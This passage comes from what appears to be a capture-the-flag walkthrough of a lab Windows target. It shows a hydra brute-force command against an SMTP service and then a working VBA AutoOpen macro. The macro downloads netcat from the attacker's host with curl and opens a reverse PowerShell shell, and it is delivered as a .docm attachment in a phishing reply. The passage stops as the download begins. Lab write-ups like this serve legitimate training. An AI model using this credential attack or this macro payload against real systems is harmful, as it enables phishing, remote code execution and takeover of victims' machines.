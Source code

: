 We also create a wordlist from them as follows:

```console
$ cat emails.txt
developer@test.corp
Administrator@SOCMAS.CORP
```

Now, testing the email addresses and the passwords we have against the `SMTP` service running on the target using `hydra`, we are able to discover the password for the `developer@test.corp` account.

```console
$ hydra -L emails.txt -P passwords.txt fisher.socmas.corp smtp -s 587 -t 16
...
[587][smtp] host: fisher.socmas.corp   login: developer@test.corp   password: [REDACTED]
...
```

With these credentials, we can use `Thunderbird` and set it up as follows to easily read and send emails.

![Thunderbird Setup](thunderbird_setup.webp){: width="1200" height="600" }

In our inbox, we see an email from the `SFC` user asking us to send a Word document including the details for non-personal accounts.

![Thunderbird Email](thunderbird_email.webp){: width="1200" height="600" }

### Shell as scrawler

Since it asks us to send a Word document, we will use `Microsoft Word` to create a `.docm` file. We will add the `test` sub to download `netcat` and use it to send a reverse shell, and the `AutoOpen` sub to call the `test` sub when the document is opened.

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "curl http://10.11.72.22/nc64.exe -o C:\ProgramData\nc64.exe", 0, True
    objshell.Run "C:\ProgramData\nc64.exe 10.11.72.22 443 -e powershell", 0, False
End Sub
```

![Word Document Macro](word_document_macro.webp){: width="1200" height="600" }

Now, we reply to the email asking for the document, attaching our `.docm` file with the reverse shell macro.

![Thunderbird Reply](thunderbird_reply.webp){: width="1200" height="600" }

After sending the email and waiting for a couple of seconds, we see that `netcat` is being downloaded from our web server.
